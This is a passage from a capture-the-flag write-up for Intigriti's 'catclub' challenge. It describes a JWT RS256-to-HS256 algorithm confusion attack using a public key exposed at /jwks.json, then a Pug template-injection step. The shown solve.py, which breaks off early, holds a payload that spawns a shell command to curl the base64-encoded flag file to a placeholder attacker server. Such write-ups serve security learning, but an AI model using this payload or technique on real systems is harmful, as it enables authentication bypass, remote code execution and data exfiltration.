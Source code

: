 The `none` algorithm is blocked, so we can't remove the signature verification but how about [algorithm confusion](https://portswigger.net/web-security/jwt/algorithm-confusion)? If we can change the token from `RS256` (asymmetric) to `HS256` (symmetric) and then sign with the public key, the server will use the same key to verify the signature 🧠

You can do this with the JWT tool, or one of the JWT extension in burp. I made a [video series](https://www.youtube.com/watch?v=GIq3naOLrTg&list=PLmqenIp2RQciV955S2rqGAn2UOrR2NX-v) covering the JWT attack material and labs from Portswigger, over on the Intigriti channel if you are interested 🙂

The public key is exposed on the common `/jwks.json` endpoint.

{% code overflow="wrap" %}
```js
router.get("/jwks.json", async (req, res) => {
    try {
        const publicKey = await fsPromises.readFile(path.join(__dirname, "..", "public_key.pem"), "utf8");
        const publicKeyObj = crypto.createPublicKey(publicKey);
        const publicKeyDetails = publicKeyObj.export({ format: "jwk" });

        const jwk = {
            kty: "RSA",
            n: base64urlEncode(Buffer.from(publicKeyDetails.n, "base64")),
            e: base64urlEncode(Buffer.from(publicKeyDetails.e, "base64")),
            alg: "RS256",
            use: "sig",
        };

        res.json({ keys: [jwk] });
    } catch (err) {
        res.status(500).json({ message: "Error generating JWK" });
    }
});
```
{% endcode %}

All that's left is to modify our username with a Pug SSTI payload, e.g. from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)

I automated the whole process with detailed comments explaining each step. You just need to update the `BASE_URL`, `JWT_TOOL_PATH` and the `ATTACKER_SERVER` in the `SSTI_PAYLOAD`.

### solve.py

{% code overflow="wrap" %}
```python
import requests
import subprocess
from base64 import urlsafe_b64decode
from Crypto.PublicKey import RSA

# Constants for challenge
BASE_URL = 'https://catclub-0.ctf.intigriti.io'
REGISTER_URL = f'{BASE_URL}/register'
LOGIN_URL = f'{BASE_URL}/login'
JWK_URL = f'{BASE_URL}/jwks.json'
CAT_URL = f'{BASE_URL}/cats'
JWT_TOOL_PATH = f'/home/crystal/apps/jwt_tool'

SSTI_PAYLOAD = "#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad('child_process').exec('curl https://ATTACKER_SERVER/?flag=$(cat /flag* | base64)')}()}"

def base64url_decode(data):
    return urlsafe_b64decode(data + b'=' * (-len(data) % 4))

# Register a new user
```